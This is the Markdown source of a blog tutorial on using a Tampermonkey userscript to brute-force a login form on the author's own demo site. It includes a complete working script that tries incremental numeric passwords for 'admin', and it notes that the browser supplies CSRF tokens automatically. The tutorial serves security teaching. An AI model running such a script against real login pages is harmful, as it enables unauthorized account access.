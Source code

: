 ```yaml
---
layout: post
title: "Automating web application attacks with Tampermonkey"
thumbnail: monkey-240.jpg
date: 2017-05-24
---
```


[Tampermonkey](https://tampermonkey.net/) and [Greasemonkey](https://www.greasespot.net/) are userscript managers that make it possible to add custom Javascript functionality to web pages. User scripts can be used to customize pages, or to automate web interactions. In this post we will use Tampermonkey to automate filling out a login form, to try to brute force credentials.

## Submitting a form with Tampermonkey

Tampermonkey makes it possible to add custom Javascript to a page. This means we can program a little bit of functionality, like submitting a login form with credentials.

As an example, we will try to brute-force [this login form](https://demo.sjoerdlangkemper.nl/login.php). We create a new user script in Tampermonkey, and add the following code to fill out the form and submit it:


    (function() {
        'use strict';

        let usernameElem = document.getElementById('username');
        usernameElem.value = 'admin';

        let passwordElem = document.getElementById('password');
        passwordElem.value = '123';

        document.getElementsByTagName('form')[0].submit();
    })();

Save the script, and reload the login form. Note that it keeps refreshing the page over and over again. When we submit the form the page reloads, and this triggers our script again which submits the form, and so on. Use the escape key to end this endless loop.

![Failed login](/images/tampermonkey-failed-login.png "Failed login")

## Looping over passwords

Constantly submitting the form is basically what we want, except that we want to try another password each time. Note that a for loop would not work:

    (function() {
        'use strict';

        // Doesn't work
        for (let i = 0; i < 100; i++) {
            ...
            passwordElem.value = i;

            document.getElementsByTagName('form')[0].submit();
        }
    })();

After the first loop the form is submitted, our script is stopped and the page is reloaded. The value of `i` is not kept between page reload, so the loop starts again without incrementing `i`.

Instead, we need a way to keep state across page reloads. The functions [`GM_setValue`](https://tampermonkey.net/documentation.php#GM_setValue) and [`GM_getValue`](https://tampermonkey.net/documentation.php#GM_getValue) can do just that. To use these functions, first enable them with a grant header:

    @grant GM_setValue
    @grant GM_getValue

Then when the script is run, retrieve the value, increase it, and store it again:

    let counter = GM_getValue('counter', 0);
    counter += 1;
    passwordElem.value = counter;
    GM_setValue('counter', counter);

Note that the values stored with `GM_setValue` are persisent and can only be cleared by the Tampermonkey script. This can be annoying if you want to start your loop again from the start. While developing, you could add a button to the page to reset the counter:

    let buttonElem = document.createElement('button');
    buttonElem.innerHTML = 'restart';
    buttonElem.addEventListener('click', function() {
        GM_setValue('counter', 0);
        window.location = window.location.href;
    });
    document.body.appendChild(buttonElem);

## Handling success

With the script so far we try incremental numbers as passwords. However, when we have succeeded to log in we want to know what the correct password was. So we have to detect when we are logged in and print the password that was last used. To do this, we check whether the username field is present. If we have logged in, the login form with the username field will no longer be shown. If it is not present, we log the last password used:

    let usernameElem = document.getElementById('username');
    if (usernameElem) {
        ...
    } else {
        console.log('The password is ' + GM_getValue('counter'));
    }

## Running the script

Now, if we run the complete script (which can be found at the end of this post), it tries incremental numbers as password until the page no longer shows the login form, and then prints the correct password in the console.

![Successfully logged in](/images/tampermonkey-logged-in.png "Successfully logged in")

## Conclusion

In this post we have shown that Tampermonkey can be used to automate browser behavior in order to brute-force a login page.

The advantage of using Tampermonkey in brute-force attacks is that you get the default browser behavior. For example, the example form has CSRF protection, but we did nothing to obtain a valid CSRF token and submit that with the following request. The browser already does this for us. Furthermore, you can easily see what is happening as each response is rendered in the browser.

A disadvantage is that it is a lot slower than issueing requests in a script or using Burp Intruder. Also, the way to implement a loop with `GM_setValue` makes the code a bit awkward.

## Appendix: complete script

The complete script looks like this:

    // ==UserScript==
    // @name         Hack sjoerdlangkemper.nl
    // @namespace    https://www.sjoerdlangkemper.nl/
    // @version      0.1
    // @description  Brute-force a login page
    // @author       Sjoerd Langkemper
    // @match        https://demo.sjoerdlangkemper.nl/login.php
    // @grant        GM_setValue
    // @grant        GM_getValue
    // ==/UserScript==


    (function() {
        'use strict';

        let usernameElem = document.getElementById('username');
        if (usernameElem) {
            usernameElem.value = 'admin';

            let passwordElem = document.getElementById('password');

            let counter = GM_getValue('counter', 0);
            counter += 1;
            passwordElem.value = counter;
            GM_setValue('counter', counter);

            document.getElementsByTagName('form')[0].submit();
        } else {
            console.log('The password is ' + GM_getValue('counter'));

            let buttonElem = document.createElement('button');
            buttonElem.innerHTML = 'restart';
            buttonElem.addEventListener('click', function() {
                GM_setValue('counter', 0);
                window.location = window.location.href;
            });
            document.body.appendChild(buttonElem);
        }
    })();



